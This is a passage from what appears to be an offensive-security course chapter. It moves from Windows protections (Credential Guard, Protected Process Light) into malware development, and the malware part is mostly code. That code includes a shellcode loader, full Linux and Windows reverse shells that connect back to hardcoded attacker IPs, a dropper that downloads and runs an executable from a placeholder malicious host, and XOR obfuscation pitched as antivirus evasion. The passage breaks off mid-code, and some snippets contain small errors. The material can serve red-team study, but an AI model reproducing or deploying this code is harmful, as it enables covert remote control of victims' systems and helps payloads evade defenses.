Credential Guard is another modern security feature that uses VBS. In traditional systems, LSASS.exe stores credentials/secrets in its own process memory, so in the event that attackers gain admin or kernel level permissions, they can dump the memory of LSASS.exe and steal credentials. When Credential Guard is active, the actual secrets and cryptographic keys are moved into a secure process called LSAIso.exe, which runs in VTL 1. This means that when an application needs to authenticate with LSASS.exe, it makes a hypercall and the hypervisor transfers control to LSAIso.exe, where the actual authentication process occurs. The results are then passed back to LSASS.exe for processing.
PPL
Protected Process Light provides kernel-enforced protections for critical system processes and approved third-party services making them highly resistant to tampering, even against processes with administrative privileges. The kernel provides a protection level to processes based on their digital signature, which often require special Microsoft certificates. Only processes with an equal or higher protection level can interact with a PPL process in a privileged way:
- PsProtectedSignerWinTcb: The highest protection level. It is used for core Trusted Computing Base (TCB) components, such as
smss.exe. - PsProtectedSignerWindows: For standard Windows processes.
- PsProtectedSignerLsa: For LSASS
- PsProtectedSignerAntimalware: Also called Antimalware Protected Process Light (AM-PPL). Used for approved antimalware services, such as Microsoft Defender's
MsMpEng.exe. - PsProtectedSignerCodeGen: A reserved or internal signer class that Windows currently does not use for any major subsystem. There is no evidence of real‑world usage.
- PsProtectedSignerAuthenticode: The weakest level of PPL class that requires Microsoft-trusted Authenticode signing.
- PsProtectedSignerNone: The default for normal user an system processes. No protection provided.
You can check the level of protection a given program has been assigned by querying HKLM\SYSTEM\CurrentControlSet\Services\[ServiceName] and checking the LaunchProtected value:

The _PS_PROTECTED_SIGNER structure contains definitions and names for all the protection levels that can be assigned to a PPL.
This value can give you a hint as to what the actual PPL protection level is for any service, although the actual value is different and is stored as part of a kernel object, EPROCESS.Protection. This is what each hexadecimal value means:
SERVICE_LAUNCH_PROTECTED_NONE: 0 - Not PPLSERVICE_LAUNCH_PROTECTED_WINDOWS: 1 - WinTcb/WinSystem depending on the signatureSERVICE_LAUNCH_PROTECTED_WINDOWS_LIGHT: 2 - WinTcb-Light/WinSystem-LightSERVICE_LAUNCH_PROTECTED_ANTIMALWARE_LIGHT: 3 - Antimalware-Light
Conclusion
As the largest PC operating system in the world, Windows is a frequent target for malicious actors to study and develop exploits for. As an OffSec professional, understanding how Windows works and how it is organized is the first step in being able to analyze, write exploits, and manage command and control servers for Windows systems and domains. As we move forward from here, use this chapter as reference. The subjects we covered here play an important role in successfully running a Red Team Operation.
Malware Essentials
Malware is a type of software designed to conduct malicious actions, such as gaining unauthorized access to a computer or stealing sensitive information from a computer. Malware can be used by ethical hackers to execute an authorized security assessment of an organization. Developing custom tools, such as malware, that have not been analyzed or signed by security vendors provides the attack team with an advantage in terms of detection.
The methods used by an attack team to avoid detection is sometimes referred to as Operational Security (OpSec).
OpSec: a military term used to describe the set of practices and mindset used to protect information about operations so that adversaries can't discover, understand, or exploit them.
Within the context of Offensive Security, OpSec is about protecting both the technical and human traces that would reveal the activity, identity, tools, or intentions of the Red Team, while staying within legal and ethical boundaries.
Malware can be developed in any programming language, but C/C++ have long been a preferred language for both malware development and the broader field of adversary simulation. These languages allow for direct manipulation of hardware and memory, offering unparalleled control and flexibility in crafting code that interacts with operating systems, network protocols, and other core computing components.
A Simple Example
First, a basic piece of malware may allocate a chunk of memory:
payload_mem = VirtualAlloc(NULL, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE );
Where:
VirtualAlloc: a core Windows API (part of Win32,kernel32.dll), which allows a process to reserve, commit, or change the state of pages in its virtual address space. It is fundamental for many memory related operations, including many in Malware Development, such as:- Allocating a buffer for shellcode
- Process Injection
- Manipulating memory pages
Here is a breakdown of the VirtualAlloc functions parameters:
LPVOID VirtualAlloc(
LPVOID lpAddress,
SIZE_T dwSize,
DWORD flAllocationType,
DWORD flProtect
);
lpAddress: A pointer to the desired starting address of the region to allocate.0orNULLdefaults to a random location determined by the system.dwSize: Specifies the size of the region to allocate in bytes.VirtualAllocallocates memory in terms of whole pages. The provided will be rounded up to the next page boundary.flAllocationType: A bitmask that defines the type of memory allocation. Flags can be combined using the bitwise OR (|) operator:MEM_COMMIT: Commits a reserved page, allocating physical space in RAMMEM_RESERVE: Reserves a range of the process's virtual address space, preventing other allocations from using this range.MEM_RESET: Removes a specified set of pages from the working set to allow the system to reclaim the physical RAM used by those pages without having to write their contents to the page file. This is undone byMEM_RESET_UNDO(if possible).
flProtect: A bitmask that specifies the memory protection for the allocated region. This dictates what operations (Read, Write, or Execute) are allowed:PAGE_EXECUTE_READ: Grants Read and Execute (RX) permissions.PAGE_EXECUTE_READWRITE: Grants Read, Write, and Execute (RWX) permissions.PAGE_EXECUTE_WRITECOPY: Similar to RWX, but for copy-on-write scenarios.PAGE_NOACCESS: Grants no permissions on the memory region for the current process.PAGE_READONLY: Grants Read (R) permissions.PAGE_READWRITE: Grants Read and Write (RW) permissions.
VirtualAlloc returns the base address of the allocated region on success, and returns NULL on failure. If an error occurs, use the GetLastError() API to learn more about why.
After allocating the memory space, the payload gets copied into that memory region:
RtlMoveMemory(payload_mem, actual_payload, sizeof(payload));
Where:
RtlMoveMemory: a core Windows API (part of Win32 API,kernel32.dll), used to copy a block of memory from a source location to a destination within the same virtual address space. Fundamental for malware developers because it is a reliable way to manipulate and execute code directly in a computer's memory. Its ability to handle overlapping memory regions is crucial fro a wide variety of in-memory attacks that help malware evade detection by antivirus and security software, including:- Shellcode Execution
- Process Injection
- Process Hollowing
- In-Memory Patching and Hooking
Here is a breakdown of the RtlMoveMemory functions parameters:
void RtlMoveMemory(
void* Destination,
const void* Source,
SIZE_T Length
);
Destination: A pointer to the starting address of the destination memory block.Source: A constant pointer to the starting address of the source memory block.Length: The number of bytes to copy from the source to the destination.
After the payload is copied into the process's memory, the permissions for that memory region must be updated so that the payload can be executed:
operation_status = VirtualProtect(payload_mem, sizeof(payload), PAGE_EXECUTE_READ, &old_protect);
Where:
VirtualProtect: A core Windows API (part of the Win32 API,kernel32.dll), which updates the permissions of a given region of memory. It is used by malware to avoid detection by:- Evading Signature-Based Detection
- Bypassing Behavioral Analysis
- Executing Code Directly in Memory
Here is a breakdown of the VirtualProtect functions parameters:
BOOL VirtualProtect(
LPVOID lpAddress,
SIZE_T dwSize,
DWORD flNewProtect,
PDWORD lpflOldProtect
);
lpAddress: A pointer to the starting address of the memory region whose protection attributes are to be changed.dwSize: The size of the memory region in bytes for which the protection attributes are to be changed.flNewProtect: A flag specifying the new protection options for the memory region.lpflOldProtect: A pointer to a variable that receives the previous protection options of the specified memory region.
VirtualProtect returns a non-zero value if successful and zero if the operation failed.
Finally, since the memory region is executable, the malware creates a new thread of execution and starts running the payload in that new thread:
if (operation_status != 0){
thread_handle = CreateThread(0, 0, (LP_THREAD_START_ROUTINE)payload_mem, 0, 0, 0);
WaitForSingleObject(thread_handle, -1);
}
return 0;
Where:
CreateThread: A core Windows API (part of the Win32 API,kernel32.dll) used to create a new thread of execution within the address space of the calling process. Used by malware to concurrently run the payload with the rest of the application, often within the context of a legitimate process to avoid detection. Here is a breakdown of theCreateThreadfunctions parameters:
HANDLE CreateThread(
LPSECURITY_ATTRIBUTES lpThreadAttributes,
SIZE_T dwStackSize,
LPTHREAD_START_ROUTINE lpStartAddress,
LPVOID lpParameter,
DWORD dwCreationFlags,
LPDWORD lpThreadId
);
lpThreadAttributes: A pointer to aSECURITY_ATTRIBUTESstructure that determines if the returned object handle can be inherited by child processes. If set to 'NULL', a default security descriptor is passed, which makes the thread uninheritable by child processes.dwStackSize: The initial size of the new thread's stack in bytes, A vale of0defaults to the same size as the main threads stack.lpStartAddress: A pointer to the application-defined function that the new thread will execute (the payload).lpParameter: A pointer to a variable that is passed as a single argument to the function.dwCreationFlags: A flag that controls the creation state of the new thread. It can be0to run the thread immediately orCREATE_SUSPENDEDto create it in a suspended state.lpThreadId: A pointer to a variable that receives the unique identifier for the new thread. This can be useful for managing or terminating the thread later.
CreateThread returns a handle to the new thread if successful. NULL if it fails.
WaitForSingleObject: A core Windows API (part of the Win32,kernel32.dll) used to wait for a single object to be in a signaled state (i.e., the thread completes execution).
Here is a breakdown of the WaitForSingleObject function's parameters:
DWORD WaitForSingleObject(
HANDLE hHandle,
DWORD dwMilliseconds
);
hHandle: A handle to the object you want to wait fordwMilliseconds: The time-out interval in milliseconds.INFINITE: Functions will wait until the object is signaled. (Same as-1)0: Function will check the objects state and return immediately without waiting.
WaitForSingleObject returns a DWORD (32-bit unsigned integer) that indicates the state of the wait:
WAIT_OBJECT_0: SuccessWAIT_TIMEOUT: Timeout elapsed before signal receivedWAIT_ABANDONED: Specific to mutex objects. Thread holding mutex terminated without releasing.WAIT_FAILED: Failure for any other reason.
As we can see here, the granular control enabled by C/C++ enables the creation of complex, stealthy, and tailored malware that can evade detection, manipulate system behavior, and carry out sophisticated tasks.
Types and Behaviors of Malware
A Virus is a piece of code that attaches itself to other programs and replicates itself, often causing damage in the process. Worms are self-replicating malware that spreads autonomously across networks, without human intervention and Trojans are pieces of software that appear legitimate, but actually have a hidden, malicious purpose. As we move forward, we will discover how these, and other types of malware are implemented and used. There are many types of malware, but generally speaking, malware applications exhibit certain types of behavior that allow them to be classified as malicious programs. Some of these behaviors include:
Backdoors: A feature of malware that allows an attacker to break normal authentication or encryption, providing attackers with an invisible access to systems, enabling them to remotely control the victim's machine for various malicious activities.Downloaders: Malicious programs, which download and install other malware once they are installed on a target system. These are often used in multi-stage attacks, where the downloader serves as a means to bring in more advanced, and sometimes tailored, threats onto the compromised machine.Remote Access Trojan: A specific type of Trojan that provides an attacker with complete, covert, remote control over an infected machine. RATs can be particularly dangerous because they often remain undetected by antivirus software.Stealers: Malware designed to extract sensitive data from a victim's system, including passwords, credit card details, and other personal information.Bootkits: Malware that infects the master boot record (MBR). By attacking the startup routine, the bootkit ensures that it loads before the operating system, remaining hidden from antivirus programs.
A particularly important behavior of malware is that it may establish a reverse shell. Reverse shells are a communication technique where the compromised machine initiates a connection to the attacker, creating a covert channel that can bypass firewalls and network restrictions. This technique, however, exposes the attacker's control server, and network security monitoring services may be able to detect traces.
There are three stages required to create a reverse shell:
- An adversary exploits a system or network flaw that allows code execution on the target.
- The adversary the installs a listener on their own system.
- The vulnerability is exploited by the adversary injecting a reverse shell on a vulnerable system.
In actual cyberattacks, the reverse shell can also be obtained through social engineering. For instance, malware installed on a local workstation through a phishing email or a malicious website could initiate an outgoing connection to a command server and provide the hacker with a reverse shell.
Linux Reverse Shells
Fundamentally, computers are very complex machines. It would be practically infeasible to write a program that conducted every operation you, the developer, intended for it to do. For this reason, developers write and publish their own code, so that others can build their own applications using the pre-existing code. There is no need to re-invent the wheel.
- When building a reverse shell on linux, there are a number of headers that need to be included so that the program runs as intended:
#include <stdio.h>
#include <unistd.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <sys/socket.h>
stdio.h(Standard Input/Output): A standard C library header that provides functions for basic input and output operations. It's widely used in malware for tasks like printing debug messages to the console (printf) or reading and writing to files (fopen,fread,fwrite).unistd.h(Unix Standard): Provides access to the Portable Operating System Interface (POSIX) API. It contains functions that give a program access to the operating system's features such as file II/O (read, write, close), process control (fork, exec), and system-level information. In malware development, it is used for low-level, direct interaction with the system, often for persistence or process manipulation.sys/socket.h: The core header file for socket programming, which defines the data structures and functions required to create and manage network sockets. This is the foundation for any tool that needs to communicate over a network, including those that establish a reverse shell. Key functions include:socket(): Creates a new socketbind(): Assigns a name (i.e., an IP address and port) to a socket.connect(): Initiates a connection to a remote host.listen(): Puts a socket in a listening state for incoming connections.
arpa/inet.h: Provides functions for manipulating Interned Addresses. Used to convert between different data representations, such as converting a human-readable IP address string (i.e.,192.168.1.1) into a binary format that can be used by the network functions defined insys/socket.h.netinet/ip.h: Defines the structures and constants for the Internet Protocol (IP). Used for more advanced, low-level network programming, such as when a program needs to directly craft and send custom IP packets, rather than using higher-level protocols like TCP or UDP. Particularly useful for certain types of exploits or covert communication.
- After including the required headers, the first thing the malware does is define the IP address of the attacking machine:
const char* attacker_ip = "10.10.1.5";
- Then, the malware prepares the target victim's address:
struct sockaddr_in target_address;
target_address.sin_family = AF_INET;
target_address.sin_port = htons(4444);
inet_aton(attacker_ip, &target_address.sin_addr);
-
sockaddr_in: Used to specify the address and port of the communicating endpoint. It is passed to key socket functions to tell the operating system where to send or listen for data. It is included in<sys/socket.h>. Here are thesockaddr_infunction's parameters:struct sockaddr_in { sa_family_t sin_family; in_port_t sin_port; struct in_addr sin_addr; }sin_family: Specifies the address family of the new socket. AlwaysAF_INETif the socket should be set up for IPv4.sin_port: Holds the port number. Must be in network byte order (big-endian).sin_addr: Another structure that contains the actual IPv4 address. Must be in network byte order (big-endian).
A server/listener would fill a
sockadddr_instructure with its own IP address and the port it wants to listen on. It then passes this structure to thebind()function to associate the socket with that specific address. A client would fill asockaddr_instructure with the IP address and port of the server it wants to connect to . It then passes this structure to theconnect()function. -
htons: Used in network programming to convert a 16-bit integer from host byte order to network byte order. It stands for host to network, short. It is included in<arpa/inet.h>, but defined in<netinet/in.h>and its only argument is a 16-bit integer. -
inet_aton: A standard C library function used for network programming, used to convert a human-readable IPv4 address string (in dotted-decimal notation) into a binary format that is compatible with network functions and stored in network byte order. It is included in<arpa/inet.h>and stands for Address to Network (Internet Address to Network Number).int inet_aton(const char *cp, struct in_addr *inp);const char *cp: The input parameter. A pointer to a character string that contains the IPv4 address you want to convert.struct in_addr *inp: The output parameter. A pointer to anin_addrstructure.inet_atonreturns a non-zero integer if successful. Zero upon failure.
- After creating the
sockaddr_inobject, the malware creates a new socket.
int socket_file_descriptor = socket(AF_INET, SOCK_STREAM, 0);
Where:
socket: a fundamental system call used inC/C++to create a communication endpoint. Creating a socket is the first step a program takes when it wants to perform network communication, whether it is a client or a server. Include in<sys/socket.h>.
Here is a breakdown of its parameters:int socket(int domain, int type, int protocol);int domain: Specifies the communication domain or address family.AF_INET: Represents the IPv4 Internet ProtocolAF_INET6: Represents the IPv6 Internet ProtocolAF_LOCALorAF_UNIX: Used for inter-process communication on a single machine.
int type: Specifies the type of socket, which defines the communication semantics.SOCK_STREAM: Reliable, two-way connection (like TCP)SOCK_DGRAM: Connectionless, unreliable datagram service (like UDP)SOCK_RAW: Direct access to underlying network protocols. Used for advanced network tools or exploits.
int protocol: Specifies the particular protocol to be used within the specified domain and type. Usually set to0, which tells the operating system to automatically choose the correct protocol. For instance, if you chooseAF_INETandSOCK_STREAM, the protocol will automatically beTCP.socketreturns a non-negative integer on success. This integer is a socket descriptor (or a handle on Windows), which acts like a file descriptor. ALl subsequent network functions (bind(),connect(),send(),recv()) use this descriptor to identify the socket. On failure, it returns-1.
- Here, the new socket connects to the attacker's server:
connect(socket_file_descriptor, (struct sockaddr*)&target_address, sizeof(target_address));
Where:
connect(): A critical system call used by a client program to initiate a socket connection with a server. Attempts to establish a connection to a specific network address and port, which are typically defined by the server application that is already listening for incoming connections. Included in<sys/socket.h>.
Here is a breakdown of the function's parameters:int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);int sockfd: Socket descriptor returned bysocket()const struct sockaddr *addr: A pointer to asockaddrstructuresocklen_t addrlen: An integer that specifies the size, in bytes of the address structure pointed to by theaddrparameter.connect()returns0on success,-1on failure.
- The most important process occurs when standard input, standard output, and standard error are redirected to the socket:
for (int index=0; index < 3; index++){
dup2(socket_file_descriptor, index);
}
Where:
dup2(): A powerful system call used in C programming on Unix-like systems to duplicate an existing file descriptor. Shorthand for duplicate to. Critical function for malware development because it is the primary way to redirect a program's standard input, output and error streams to a new destination, such as a network socket. It serves as the core mechanism used to create a reverse shell. Included in<unistd.h>.
Here is a breakdown of the function's parameters:int dup2(int oldfd, int newfd);int oldfd: The file descriptor that you want to duplicate. In the context of a reverse shell, this would be the socket descriptor returned by asocket()call.int newfd: The new file descriptor number that you want theoldfdto be duplicated to. Ifnewfdis already open, it is closed first. FOr a reverse shell, the values for this parameter are:0: Standard Input (stdin)1: Standard Output (stdout)2: Standard Error (stderr)
dup2returns the new file descriptor on success (i.e., the same value as thenewfdparameter). On failure, it returns-1.
- The last step is to spawn a shell:
execve("/bin/sh", NULL, NULL);
Where:
execve: A powerful system call used on Unix-like operating systems to execute a new program by replacing the current process with a new one without creating a new process ID (PID). The new process completely overwrites the existing process code, data, and stack. From the perspective of the operating system, the process's PID remains the same, but the program it is running changes entirely. Included in<unistd.h>.int execve(const char *pathname, char *const argv[], char *const envp[]);const char *pathname: A pointer to a null-terminated string that contains the full path to the executable file that you want to run.char *const argv[]: A null-terminated array of pointers to character strings, which represent the command-line arguments for the new program. The first element of this array is conventionally the name of the program itself.- For instance, if you ran
ls -l,argv[] = {"ls", "-l", NULL}
- For instance, if you ran
char *const envp[]: A null-terminated array of pointers to character strings representing the environment variables for the new program.execvewill not return is the call was successful, as the current program is replaced with the new one. If it fails, it returns-1.
Windows Reverse Shells
Conceptually, Windows Reverse Shells and Linux Reverse Shells utilize the same principles. In practice, Windows applications should be built using the Windows API because it exposes certain features of the operating system that the POSIX model cannot handle.
- Include the required libraries, variables and structures to create a reverse-shell:
#include <stdio.h>
#include <winsock2.h>
#pragma comment(lib, "ws2_32")
WSADATA socketData;
SOCKET mainSocket;
struct sockaddr_in connectionAddress;
STARTUPINFO startupInfo;
PROCESS_INFORMATION processInfo;
Where:
-
winsock2.h: The primary header file for the Windows Sockets 2 API, often referred to as Winsock. It provides functionality similar to thePOSIXsockets (<syn/socket.h>), with some critical differences:- Header Files: All necessary functions and data structures are typically contained within
winsock2.handws2_32.lib, as opposed to the POSIX model, which has them distributed (sys/socket.h,arpa/inet.h,netinet/in.h). - API Initialization: Before you can make any winsock calls, you must initialize the library by calling the
WSAStartup()function. This function takes a version number and a pointer to aWSADATAstructure as parameters. When your program is finished using the API, you must callWSACleanup()to de-initialize the library. - Socket Handles:
WinSockfunctions return a specific data type calledSOCKETinstead of a file descriptor. - Error Handling: INstead of checking the
errnoglobal variable,Winsockfunctions return a specific error code, and you retrieve detailed error information by callingWSAGetLastError().
- Header Files: All necessary functions and data structures are typically contained within
-
# pragma comment (lib, "ws2_32"): A Microsoft-specific compiler directive used inC/C++programming to tell the linker where to find the code for functions in thewinsock2.hheader file. -
WSADATA: A data structure that holds details about the Windows Sockets implementation on a given system. Its primary role is to be populated by theWSAStartupfunction. It is defined in<winsock2.h>.WSAStartupfills the WSAData structure with important information about the Winsock DLL, confirming that the requested version of the API is available.
typedef struct WSAData { WORD wVersion; WORD wHighVersion; char szDescription[WSADESCRIPTION_LEN+1]; char szSystemStatus[WSASYS_STATUS_LEN+1]; unsigned short iMaxSockets; unsigned short iMaxUdpDg; char FAR *lpVendorInfo; } WSADATA, *LPWSADATA;Here are the
WSADATAstructure's attributes:wVersion: Filled byWSAStartupwith the version of the Winsock specification that the program requested.wHighVersion: Filled byWSAStartupwith the highest version of the Winsock API that the Winsock DLL can support.szDescription: A null-terminated string that provides a human-readable description of the Winsock implementation (i.e.,Winsock 2.0).szSystemStatus: A null-terminated string that contains status or configuration information about the Winsock implementation.
-
STARTUPINFO: A Windows API structure that specifies how a process is to be created. It allows a parent process to control various aspects of a child process's creation, such as its window properties and (importantly for adversary simulation) the handles used for standard input, output, and error.STARTUPINFOis the WIndows API's equivalent to the UNIXdup2()system call for I/O redirection. It is defined in<windows.h>.typedef struct _STARTUPINFOA { DWORD cb; [...trunc...] DWORD dwFlags; [...trunc...] HANDLE hStdInput; HANDLE hStdOutput; HANDLE hStdError; [...trunc...] } STARTUPINFOA;Here are the
STARTUPINFOAdata structure's attributes:cb: The size of the structure in bytes. Must be set tosizeof(STARTUPINFOA)before the structure is used.dwFlags: A bitmask that contains which of the other fields are used. To redirect standard I/O, you must set this field toSTARTF_USESTDHANDLES. Without this flag, thehStd**handles will be ignored.nStdInput: The handle that the new process will use for its standard input (stdin).nStdOutput: The handle for standard output (stdout).nStdError: The handle for standard error (stderr).
-
PROCESS_INFORMATION: A Windows API structure that provides information about a newly created process and its primary thread. It is a companion structure toSTARTUPINFO, used as an output parameter for theCreateProcessfunction and allows the operating system to return the details of a newly created process. It is defined in<winsock2.h>.typedef struct _PROCESS_INFORMATION{ HANDLE hProcess; HANDLE hThread; HANDLE dwProcessId; HANDLE dwThreadId; } PROCESS_INFORMATION;Here are the
_PROCESS_INFORMATIONstructure's attributes:hProcess: A handle to the newly created process.hThread: A handle to the primary thread of the new process.dwProcessId: The Process ID (PID) of the new process.dwThreadId: The Thread ID (TID) of the primary thread.
- After including the required libraries and declaring the initial data structures, the program sets the IP address and port it wants to connect with:
char *attackerIP = "10.10.10.5";
char attackerPort = 4444;
- Next, the
Windows Socketslibrary is initialized:
// Initialize the socket library
WSAStartup(MAKEWORD(2,2), &socketData);
// Create the Socket Object
mainSocket = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int) NULL);
Where:
WSAStartup: A mandatory initialization function for the Windows Sockets API (winsock), needed in order to perform the necessary setup to allow an application use any Winsock functions. It is included in<winsock2.h>.
Here are theint WSAAPI WSAStartup(WORD wVersionRequired, LPWSADATA lpSAData);WSAStartupfunction's parameters:WORD wVersionRequired: Specifies the version of the Winsock API that the application requires. It is a 16-bit value that is typically created using theMAKEWORD()macro. For instance,MAKEWORD(2,2)for Winsock version2.2.LPWSADATA lpWSAData: a pointer to theWSADatastructure, which will be populated with information about eh Winsock implementation on the system.WSAStartupreturns0on success and a non-zero error code on failure.
WSASocket: A Windows socket (Winsock) function used to create a new socket. It is preferred tosocket(), which is older and has fewer features. It is included in<winsock2.h>.
Here are theSOCKET WSAAPI WSASOCKET( int af, int type, int protocol, LPWSAPROTOCOL_INFO lpProtocolInfo, GROUP g, DWORD dwFlags );WSASOCKETfunction's parameters:int af: Address Familyint type: The Socket Type (i.e.,SOCK_STREAM,SOCK_DGRAM, etc.)int protocol: The protocol used, such asIPPROTO_TCPorIPPROTO_UDPLPWSAPROTOCOL_INFO lpProtocolInfo: A pointer to aWSAPROTOCOL_INFOstructure, which is used for advanced socket features, such as socket cloning. For a basic socket, this is typically set toNULL.GROUP g: A group identifier for socket sharing. Use0for a simple socket.DWORD dwFlags: A set of flags that define additional socket attributes. A common flag isWSA_FLAG_OVERLAPPED, which enables asynchronous (non-blocking) I/O. For a simple, blocking socket, this is typically0.WSASOCKETreturns aSOCKEThandle if success. ReturnsINVALID_SOCKETon failure.
- Next, the socket address structure is filled with the IP Address and Port Number and a connection is attempted using
WSAConnect():
// Fill in the sockaddr_in structure
connectionAddress.sin_family = AF_INET;
connectionAddress.sin_port = htons(attackerPort);
connectionAddress.sin_addr.s_addr = inet_aton(attackerIP);
//Establish a connection to the remote host
WSAConnect(mainSocket, (SOCKADDR*)&connectionAddress, sizeof(connectionAddress), NULL, NULL, NULL, NULL);
Where:
WSAConnect(): Used by a client program to establish a connection to a remote server. It is defined in<winsock2.h>.
Here are theint WSAAPI WSAConnect( SOCKET s, const SOCKADDR* name, int namelen, LPWSABUF lpCallerData, LPWSABUF lpCalleeData, LPQOS lpSQOS, LPQOS lpGQOS );WSAConnectfunction's parameters:SOCKET s: The Socket handle returned from a call toWSASOCKET().const SOCKADDR* name: A pointer to asockaddrstructure, which contains the IP address and Port of the server you want to connect to.int namelen: The size of thesockaddrstructure in bytes.- The remaining parameters are used for advanced features, like sending data with the connection request or specifying the Quality of Service. For a basic connection, they are usually
NULL. WSAConnectreturns0on success. On failure, it returnsSOCKET_ERROR.
- Finally, the
STARTUPINFOstructure is filled out and a child process is created to run the shell.
// Zero out the space allocated for the `startupInfo` structure
memset(&startupInfo, 0, sizeof(startupInfo));
// Fill in `startupInfo`
startupInfo.cb = sizeof(startupInfo);
startupInfo.dwFlags = STARTF_USESTDHANDLES;
startupInfo.hStdInput = startupInfo.hStdOutput = startupInfo.hStdError = (HANDLE) mainSocket;
// Initiate cmd.exe with redirected streams
CreateProcess(NULL, "cmd.exe", NULL, NUL, TRUE, 0, NULL, NULL, &startupInfo, &processInfo);
Where:
memset: A C standard library function used to fill a block of memory with a specific repeating byte value. It is an essential utility for initializing data structures, especially for network and system programming, where you need to ensure all fields are zeroed out before use. It is included in<string.h>.
Here are thevoid *memset(void *s, int c, size_t n);memsetfunction's parameters:void *s: A pointer to the starting address of the memory block that you want to fill.int c: The value that will be written to each byte of the memory block. A common use is to pass0to zero out the memory.size_t n: The number of bytes in the memory block that you want to fill.memsetreturns a pointer to the memory block, which is the first parameter.
CreateProcess(): The core Windows API function used to create a new process and its primary thread. It is critical for any program that needs to launch another executable, such as a malware payload launching a command-line shell to serve as a reverse shell.
Here are theBOOL CreateProcessA( LPCSTR lpApplicationName, LPSTR lpCommandLine, LPSECURITY_ATTRIBUTES lpProcessAttributes, BOOL bInheritHandles, DWORD dwCreationFlags, LPVOID lpEnvironment, LPCSTR lpCurrentDirectory, LPSTARTUPINFOA lpStartupInfo, LPPROCESS_INFORMATION lpProcessInformation );CreateProcessAfunction's parameters:lpCommandLine: A pointer to a string that specifies the command to be executed. You can also uselpApplicationNamefor this purpose.bInheritHandles: A crucial parameter for I/O redirection. It must be set to true to allow the child process to inherit the parent's inheritable handles.dwCreationFlags: Flags to control the process creation. Set it toCREATE_NO_WINDOWto prevent the new process from creating a Window object.lpStartupInfo: A pointer to theSTARTUPINFOstructure.lpProcessInformation: A pointer to thePROCESS_INFORMATIONstructureCreateProcessreturns a non-zero value on success,0on failure.
Leveraging Windows Internals for Malware Development
The Windows API allows developers to interact with the Windows Operating System via their applications. For example, if an app needs to render content on a scree, access a local file, or download something from the internet, these tasks can be accomplished through the Windows API.
For Example
#include <windows.h>
#include <stdio.h>
int main() {
char username[UNLEN+1];
DWORD username_len = UNLEN+1;
GetUserName(username, &username_len);
printf("current user is: %s\n", username);
return 0;
}
This program utilizes the GetUserName API.
-
GetUserName: A Windows API function used to retrieve the name of the user associated with the current thread. It is included in<windows.h>and requires theadvapi32.liblibrary for linking.BOOL GetUserNameA( LPSTR lpBuffer, LPDWORD lpnSize );Here are the
GetUserNameAfunction's parameters:LPSTR lpBuffer: A pointer to a buffer where the function will copy the user's name as a null-terminated string. A constant likeUNLEN+1(fromlmcons.h) is used so that an appropriate buffer size is allocated for the username before the call toGetUserNameA.LPDWORD lpnSize: A pointer to a variable that receives the number of characters copied into thelpBuffer, including theNULLterminator. It is also used to tellGetUserNameAthe maximum number of characterslpBuffercan hold.GetUserNameAreturns a non-zero value on success. On failure, it returns0.
Many Windows API functions have both an
Aand aWvariant. TheAvariants include functions that use a single-byte character set, typically based on the system's active code page (i.e.,ASCII). A string isNULLterminated with a single byte (0x00). TheWvariants include functions that use a 16-bit wide character set, which on Windows isUTF-16. A string isNULLterminated with a two-byte sequence (0x00 0x00). This is the native, preferred encoding for modern Windows:BOOL GetUserNameW( LPWSTR lpBuffer, LPDWORD lpnSize );The number of bytes required will differ, depending on which version is used:
char s1[] = "malware"; // 8 bytes (malware + null byte) char s2[] = L"malware"; // 16 bytes each char + null are 2 bytes.
Malware development requires a deep understanding of the tools and techniques that make it possible to interact with, manipulate, and investigate processes and memory within the Windows Operating System. This is why it is crucial to know the Windows Debugging APIs, the set of functions provided by Windows that can be utilized to manipulate memory and processes (i.e., VirtualAlloc, VirtualProtect, RtlMoveMemory, CreateThread, etc.). PE files can compile to either executables (.exe) or Dynamically Linked Libraries (.DLL). The main difference is that an .exe requires a function called main, which the OS loader calls when a new process is ready, and .dll needs a function called DllMain, since the loader has already set up the process in memory.
For Example
#include <windows.h>
#pragma comment (lib, "user32.lib")
BOOL APIENTRY DllMain(HMODULE mHandle, DWORD actionReason, LPVOID reservedPointer){
switch(actionReason){
case DLL_PROCESS_ATTACH:
MessageBox(NULL, "You Have Been Hacked!", ">;-)", MB_OK);
break;
case DLL_PROCESS_DETACH:
break;
case DLL_THREAD_ATTACH:
break;
case DLL_THREAD_DETACH:
break;
}
return TRUE;
}
Where:
DllMain: The primary entry-point function for aDLL. This function is called by the OS Loader to notify aDLLof important events, such as when it is loaded into a process, when a thread is created or destroyed within that process, or when theDLLis unloaded.
Here is a breakdown of theBOOL WINAPI DllMain( HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved );DllMainfunction's parameters:HINSTANCE hinstDLL: A handle to theDLLitself.DWORD fdwReason: Defines the reason why the OS is callingDllMain. For instance:DLL_PROCESS_ATTACH: TheDLLis being loaded into the virtual address space of the current process.DLL_THREAD_ATTACH: A new thread is being created in the current process, and theDLLhas already been attached to the process.DLL_THREAD_DETACH: A thread is exiting cleanly from the current process's virtual space.DLL_PROCESS_DETACH: TheDLLis being unloaded from the current process's virtual address space.
LPVOID lpvReserved: A reserved parameter that can provide additional information for certain events.DllMainreturnTRUEon successful initialization,FALSEotherwise.
Deceiving a Victim's Systems
A malicious program can use many technique to deceive a target system, including:
- Downloading and executing malware from a remote server:
#include <windows.h>
#include <urlmon.h>
#pragma comment(lib, "urlmon.lib")
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdline, int nCmdShow){
URLDownloadToFile(
NULL,
"http://maliciouswebsite.com/malware.exe",
"C:\\temp\\malware.exe",
0,
NULL
);
ShellExecute(
NULL,
"open",
"C:\\temp\\malware.exe",
NULL,
NULL,
SQ_SHOWNORMAL
);
return 0;
}
A malware may be hosted on a remote server and a dropper program can be used to download and execute it.
- Antivirus (AV)/Endpoint Detection Response (EDR) evasion tricks
#include <windows.h>
#include <stdio.h>
// Function to perform simple XOR encryption/decryption
void xor_encrypt_decrypt(char* input, char key){
char* iterator = input;
while(*iterator){
iterator ^= key;
iterator++;
}
}
int main(){
char payload[] = "<MALICIOUS_PAYLOAD>";
printf("original payload %s\n", payload);
xor_encrypt_decrypt(payload, 'k');
printf("encrypted payload: %s\n", payload);
// At this point, the payload may bnot be recognized by AV
// When we're ready to exexcute it, we decrypt it
xor_encrypt_decrypt(payload, 'k');
